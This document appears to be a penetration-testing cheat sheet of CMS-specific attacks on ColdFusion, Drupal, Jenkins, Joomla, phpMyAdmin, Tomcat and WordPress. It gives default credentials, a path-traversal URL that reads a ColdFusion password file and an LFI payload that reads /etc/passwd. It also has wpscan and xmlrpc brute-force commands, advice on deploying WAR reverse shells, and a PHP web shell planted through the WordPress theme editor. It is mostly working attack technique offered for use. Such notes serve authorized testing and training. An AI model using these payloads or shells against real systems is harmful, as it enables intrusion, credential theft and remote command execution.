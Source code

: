 # CMS Specific Vulnerabilities and Exploits    
## Contents  
- [CMS Specific Vulnerabilities and Exploits](#cms-specific-vulnerabilities-and-exploits)
  * [Contents](#contents)
    + [Default Creds](#default-creds)
    + [Adobe Coldfusion](#adobe-coldfusion)
    + [Elastix](#elastix)
    + [Drupal](#drupal)
    + [JBoss](#jboss)
    + [Jenkins](#jenkins)
    + [Joomla](#joomla)
    + [PHPMyAdmin](#phpmyadmin)
    + [Tomcat](#tomcat)
    + [Wordpress](#wordpress)

[CMS RCE Techniques](https://github.com/p0dalirius/Awesome-RCE-techniques)    
### Default Creds 

    https://cirt.net/passwords
    https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials
    
### Adobe Coldfusion 
https://nets.ec/Coldfusion_hacking   
https://www.drchaos.com/post/a-walk-down-adversary-lane-coldfusion-v8

    Metasploit - Determine version
    /CFIDE/adminapi/base.cfc?wsdl
    Version 8 Vulnerabilities
    Fckeditor: use exploit/windows/http/coldfusion_fckeditor

LFI 

    http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

### Elastix 

    default login are admin:admin at /vtigercrm/
    able to upload shell in profile-photo
    Examine configuration files - Generic
    Examine httpd.conf/ windows config files 
    
### Drupal
[droopsescan](https://github.com/droope/droopescan) 
CVE-2018-7600 - Drupalgeddon 2: RCE for Drupal 7.x and 8.x    
    /CHANGELOG.txt to find version

### JBoss

    JMX Console http://IP:8080/jmxconcole/
    WAR File payload   

### Jenkins
[pwn jenkins](https://github.com/Scr1ptK1ddie/pwn_jenkins)   

### Joomla 
Use [joomscan](https://github.com/OWASP/joomscan) to find vulns and misconfigs.   

    admin page: /administrator
    other pages: configuration.php, diagnostics.php, joomla.inc.php, config.inc.php   
    
### PHPMyAdmin

    Default password root:root, pma:
    Brute force with Burp or phpmyadmin python script

### Tomcat 

    Usually port 8080, /manager
    default creds tomcat:s3cret
    generate WAR reverse shell payload, upload and deploy 
    
### Wordpress  
https://github.com/wpscanteam/wpscan/wiki/WordPress-Plugin-Security-Testing-Cheat-Sheet    
https://raphaelrichard-sec.fr/learning-notes/hacking-wordpress     
[Hacking Wordpress Notes](https://github.com/cyberteach360/Hacking-Wordpress)    
.wp-config.php.swp exploit - https://ritcsec.wordpress.com/2020/04/28/how-i-accidentally-discovered-cve-2017-17087-2/         
[Wordpress Fuzzing List](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt)      

    admin and login pages:  /wp-admin    /wp-login     /wp-admin/login.php   /login.php    /wp-login.php     
    config files:  /setup-config.php   /wp-config.php    
    curl http://10.10.10.10/wordpress/ | grep 'content="WordPress'  #get WordPress version   
    curl -s -X GET http://10.10.10.10/wordpress | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2    #get plugins     
    curl -s -X GET http://10.10.10.10 | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2   #get themes    
    curl http://10.10.10.10/wp-json/wp/v2/users | jq    #user enum   
wpscan 
Register for a free account and get an API token from https://wpscan.com/    

    wpscan --url <domain>
    wpscan --url <domain> --enumerate ap at (All Plugins, All Themes)
    wpscan --url <domain> --enumerate u (Usernames)       #or zoom.py 
    wpscan --url <domain> --enumerate v      
    wpscan --url http://10.10.10.10/wordpress --enumerate --api-token <API_TOKEN>
    wpscan -u 192.168.0.15 --enumerate -t --enumerate u --enumerate p      

Bruteforce login page with wpscan   
Xmlrpc method is usually faster (if enabled), but is not as reliable.            

    wpscan --url ipaddress --usernames name_list --passwords wordlist    
    wpscan --password-attack xmlrpc -t 20 -U admin, username -P passwords.txt --url http://10.10.10.10           


Xmlrpc.php - if enabled you may be able to use this to brute force creds. Send the below request to check    
If wp.getUserBlogs, wp.getCategories or metaWeblog.getUsersBlogs are available - can brute force    
Ref: https://gist.github.com/georgestephanis/5681982    
```
POST /wordpress/xmlrpc.php HTTP/1.1
Host: 10.10.10.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wordpress_test_cookie=WP%20Cookie%20check
Upgrade-Insecure-Requests: 1
Content-Length: 91

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```   
Vulnerable Mail Masta Plugin Exploit        

    curl http://10.10.10.10/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd     
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd    
    
RCE via Theme Editor using Admin Creds    
Login, select Appearance on the side panel and select Theme Editor to modify the PHP source code. Select an inactive theme to avod breaking the main theme.    
Add to below to theme 404 page then access it (probably) here: http://10.10.10.10/wordpress/wp-content/themes/twentytwenty/404.php     

    <?php system($_GET["cmd"]); ?>
    exploit/unix/webapp/wp_admin_shell_upload    #or use this metasploit exploit   
